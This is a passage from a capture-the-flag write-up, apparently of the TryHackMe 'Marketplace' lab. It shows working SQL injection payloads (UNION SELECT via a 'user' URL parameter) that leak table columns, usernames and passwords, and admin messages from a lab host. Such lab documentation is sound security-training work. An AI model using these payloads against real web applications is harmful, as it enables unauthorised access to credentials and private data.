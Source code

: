 ![image15.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image15.png)

The `users` table caught my interest so I used this next payload to leak its column names

`user=1000%20UNION%20SELECT%20group_concat(column_name),2,3,4%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%27users%27;`

![image16.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image16.png)

I tried leaking passwords and I was able to do so with this payload

```
http://10.10.138.5/admin?user=1000%20UNION%20SELECT%20username,password,3,4%20FROM%20users%20WHERE%20id=2;
```

![image17.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image17.png)

I then made sure to also look at the messages table to see if any of the other admins had any secret messages they had. Finally I used this payload

```
http://10.10.138.5/admin?user=1000%20UNION%20SELECT%20message_content,user_to,5,4%20%20FROM%20messages;
```
